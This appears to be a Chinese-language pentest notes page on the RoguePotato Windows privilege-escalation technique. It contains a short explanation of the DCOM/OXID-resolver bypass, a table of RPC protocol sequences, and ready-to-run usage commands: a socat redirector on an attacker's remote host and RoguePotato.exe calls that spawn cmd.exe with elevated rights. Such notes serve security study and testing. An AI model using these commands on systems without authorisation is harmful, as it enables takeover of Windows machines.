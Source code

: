 ### [RoguePotato](#toc_roguepotato)

-   [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

利用了命名管道，微软修补后，高版本`Windows DCOM` 解析器不允许`OBJREF`中的`DUALSTRINGARRAY`字段指定端口号。为了绕过这个限制并能做本地令牌协商，作者在一台远程主机上的`135`端口做流量转发，将其转回受害者本机端口，并写了一个恶意`RPC OXID`解析器

**RPC 支持的协议**  
[https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101)

| RPC transport | RPC protocol sequence string |
| --- | --- |
| SMB | ncacn\_np (see section 2.1.1.2) |
| TCP/IP (both IPv4 and IPv6) | ncacn\_ip\_tcp (see section 2.1.1.1) |
| UDP | ncadg\_ip\_udp (see section 2.1.2.1) |
| SPX | ncacn\_spx (see section 2.1.1.3) |
| IPX | ncadg\_ipx (see section 2.1.2.2) |
| NetBIOS over IPX | ncacn\_nb\_ipx (see section 2.1.1.4) |
| NetBIOS over TCP | ncacn\_nb\_tcp (see section 2.1.1.5) |
| NetBIOS over NetBEUI | ncacn\_nb\_nb (see section 2.1.1.6) |
| AppleTalk | ncacn\_at\_dsp (see section 2.1.1.7) |
| RPC over HTTP | ncacn\_http (see section 2.1.1.8) |

**利用代码：**

```bash
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

**示例**
